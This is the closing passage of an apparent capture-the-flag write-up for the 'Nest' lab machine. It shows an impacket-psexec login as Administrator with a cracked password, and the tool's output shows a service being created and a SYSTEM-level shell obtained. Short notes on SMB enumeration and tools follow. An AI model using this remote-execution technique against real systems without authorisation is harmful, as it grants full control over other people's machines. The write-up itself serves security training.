 After cracking the password we can use psexec from impacket to connect to the machine.

```shell
impacket-psexec nest.local/Administrator:XtH4nkS4Pl4y1nGX@10.10.10.178                                                                             
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Requesting shares on 10.10.10.178.....
[*] Found writable share ADMIN$
[*] Uploading file QekKfGAJ.exe
[*] Opening SVCManager on 10.10.10.178.....
[*] Creating service GsMY on 10.10.10.178.....
[*] Starting service GsMY.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32> whoami
nt authority\system

```

## Further notes
- Netcat did not work, telnet worked.
- Debug password was 0 bytes apparently but using `allinfo` in `SMB` revealed a lot more information.
- Should probably learn how to use dnSpy. Python came in clutch. 


